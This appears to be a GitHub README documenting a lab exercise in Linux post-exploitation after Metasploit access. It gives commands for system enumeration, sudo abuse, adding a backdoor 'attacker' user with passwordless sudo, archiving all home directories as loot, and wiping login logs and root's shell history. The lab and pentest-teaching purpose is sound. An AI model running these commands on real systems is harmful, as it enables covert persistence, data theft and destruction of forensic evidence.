

# Linux Privilege Escalation & Post-Exploitation Project

This project demonstrates a **realistic post-exploitation scenario** on a Linux machine after gaining initial access (e.g., via Metasploit). The goal was to escalate privileges, maintain access, exfiltrate data, and clean up traces — using only built-in Linux tools in a **controlled lab environment**.

## 🔍 Overview

Once access to the target system was obtained (via Metasploit or any other method), I carried out the following steps:
- 🔎 System Enumeration  
- 🔐 Privilege Escalation  
- 🛠️ Persistence (Backdoor User)  
- 🗃️ Data Exfiltration  
- 🧹 Log Cleanup & Anti-Forensics

---

## 🚀 Step-by-Step Execution

### 🧠 Step 1: Initial System Enumeration

```bash
uname -a
ip a
whoami
env
````

📝 Purpose: Get OS info, network interfaces, current privileges, and environment variables.



---

### 🔐 Step 2: Checking Sensitive Files

```bash
cat /etc/passwd
cat /etc/shadow
```

> /etc/passwd was readable by the current user.
> Access to /etc/shadow was denied, confirming lack of root access at this stage.

---

### 🔎 Step 3: Search for SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

📝 These files can be potential vectors for local privilege escalation.

---

### 🔑 Step 4: Sudo Rights Enumeration

```bash
sudo -l
```

The output revealed that the current user had the ability to run all commands as root without a password (NOPASSWD:ALL), which made privilege escalation trivial.

---

### 📈 Step 5: Gaining Root Access & Persistence

```bash
sudo su
useradd attacker -m -s /bin/bash
echo 'attacker:password123' | chpasswd
echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

📌 I escalated privileges to root and created a new user attacker with full sudo rights for persistent access.

---

### 💼 Step 6: Switch to Attacker User and Confirm Privileges

```bash
su - attacker
sudo whoami
```
📌 I verified that the attacker user had root privileges.
Expected Output:

```
root
```

✅ Root access confirmed through newly added user.

---
---

### 🗃️ Step 7: Data Exfiltration 

```bash
tar -czvf /tmp/loot.tar.gz /home
```

📌 This command compresses all home directory data into a .tar.gz file for potential exfiltration.

---

### 🧹 Step 8: Covering Tracks

```bash
> /var/log/wtmp
> /var/log/btmp
> /root/.bash_history
```

📌 These actions remove evidence of login activity and command history.

---

## 📘 Real-World Application

This lab demonstrates a realistic post-exploitation workflow after compromising a Linux machine. In real-world penetration testing engagements, such activities are typically used to:

* Validate the **impact of a vulnerability**
* Show **risk to client assets**
* Help **clients understand and fix** weak configurations or poor practices

---

## 🛠️ Tools Used

* Metasploit (for initial access)
* Linux terminal utilities (`sudo`, `find`, `tar`, useradd)
* Kali Linux (as a attacker machine)

